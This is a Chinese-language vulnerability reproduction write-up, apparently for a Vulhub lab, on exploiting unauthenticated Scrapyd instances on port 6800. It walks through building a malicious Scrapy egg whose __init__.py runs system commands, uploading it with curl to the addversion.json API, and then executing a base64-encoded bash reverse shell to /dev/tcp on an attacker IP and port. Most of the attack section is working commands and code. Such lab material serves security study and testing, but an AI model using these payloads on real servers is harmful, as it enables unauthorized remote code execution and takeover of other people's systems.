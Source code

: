 # Scrapyd 未授权访问漏洞

## 漏洞描述

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：

- https://www.leavesongs.com/PENETRATION/attack-scrapy.html

## 环境搭建

Vulhub执行如下命令启动scrapyd服务：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。

![image-20220228223956758](images/202202282239821.png)

## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```
$ pip install scrapy scrapyd-client
$ scrapy startproject evil
$ cd evil
```

编辑 `evil/__init__.py`, 加入恶意代码：

```python
import os

os.system('touch awesome_poc')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功执行命令`touch awesome_poc`：

![image-20220228225416938](images/202202282254990.png)

同样的方法实现反弹shell，编辑 `evil/__init__.py`, 加入恶意代码：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1

# base64编码（必须要base64编码，直接bash -i >& /dev/tcp/192.168.174.128/9999 0>&1是不行的）
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=
```

```python
import os

os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= | base64 -d | bash')
```

进行部署：

```
$ scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：

![image-20220228230711087](images/202202282307169.png)
